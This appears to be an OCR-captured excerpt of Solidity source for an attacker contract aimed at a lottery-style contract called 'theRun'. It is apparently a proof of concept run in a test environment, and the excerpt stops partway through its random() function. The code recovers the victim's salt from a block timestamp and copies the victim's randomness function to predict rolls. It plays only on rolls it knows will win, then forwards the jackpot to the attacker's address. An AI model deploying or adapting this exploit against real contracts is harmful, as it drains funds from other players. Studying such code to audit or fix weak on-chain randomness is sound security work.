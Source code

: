 ```js
    /* The salt can be obtained from web3.js with (assuming that 0x5d0... is the tx where the contract was created):
        web3.eth.getTransaction ("0x5d0b11d8cea2f32e20dc315ff1b4334a50cb789e66ab8e20133bd0bd9c64cdee").then (info => {
            web3.eth.getBlock (info.blockNumber).then (block => console.log (block.timestamp));
        });

        Or, in this test environment (since the victim contract is always in the first block):
        web3.eth.getBlock (1).then (block => console.log (block.timestamp));
    */
    constructor (uint256 contract_salt) payable public {
        admin = msg.sender;
        salt = contract_salt;
    }

    modifier onlyowner {if (msg.sender == admin) _;  }

    /* To receive the money after winning */
    function () external payable {
        console.log ("[ATTACKER] Called fallback");
        /* Send wins to the owner :) */
        admin.transfer (address(this).balance);
    }

    function play () public payable {

        //require (total_deposit > 1 ether, "total_deposit should be > 1 ether");  //only participation with more 1 ether is accepted by the victim
        console.log ("[ATTACKER] play()");
        uint roll = random (100);
        console.log ("[ATTACKER] dice roll: ");
        console.logUint (roll);
        console.logUint (salt);

        uint payout = victim.NextPayout ();
        console.log ("Next payout:");
        console.logUint (payout);

        if (roll % 10 == 0 ) {
            /* We won! -> play and send jackpot back to owner (it will get triggered after the victim pays back) */
            (bool success, bytes memory returnData) =  originalAddress.call.value (payout + 1).gas (500000)("");

            if (success) {
                console.log ("[ATTACKER] We won !!! (what a surprise XD)");
                console.logBytes (returnData);
            } else {
                console.log ("[ATTACKER] The winning transaction failed (?)");
            }
        }
    }

    /* Copied from theRun */
    function random (uint Max) view private returns (uint256 result) {
        console.log ("[ATTACKER] random()");
        //get the best seed for randomness
        uint256 x = salt * 100 / Max;
        uint256 y = salt * block.number / ((salt % 5) + 1) ; // Add "1" to avoid division by 0
//        uint256 seed = block.number/3 + (salt % 300) + Last_Payout +y;
        uint256 seed = block.number - (salt % 100) - (y % 100) - 1;
        uint256 h = uint256(blockhash(seed));

```